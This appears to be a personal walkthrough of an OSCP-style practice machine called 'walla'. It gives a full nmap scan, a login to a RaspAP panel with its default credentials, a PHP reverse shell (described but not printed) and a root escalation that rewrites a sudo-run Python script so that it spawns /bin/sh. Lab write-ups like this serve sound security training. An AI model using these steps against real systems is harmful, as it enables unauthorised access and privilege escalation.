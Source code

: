 `nmap -A -T4 -p- 192.168.152.97`

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-server-header: lighttpd/1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
```


## 8091 

Basic HTTP auth
![](Images/Pasted%20image%2020250506140027.png)

```
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
```

I looked up RaspAP and found default credentials `admin:secret` and got authentication. Within the system tab is a shell console

![](Images/Pasted%20image%2020250506145336.png)

Lets establish a standard shell before moving forward.

![](Images/Pasted%20image%2020250506145922.png)

Transferred over a basic php reverse shell and setup a listener and ran it to establish a shell usable for the OSCP.

![](Images/Pasted%20image%2020250506145955.png)

Some quick enumeration shows us our next move to the user walter

![](Images/Pasted%20image%2020250506150044.png)

Since we have can run python as root we can modify the wifi_reset.py in order to escalate our shell.  First lets grab out local flag.

![](Images/Pasted%20image%2020250506150202.png)

The file wifi_reset.py is not writeable but we can probably just remove it and then make a new one. Since we will get sudo level execution it won't matter.

```
echo 'import os; os.system("/bin/sh")' > wifi_reset.py
```

![](Images/Pasted%20image%2020250506151146.png)

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

![](Images/Pasted%20image%2020250506151230.png)



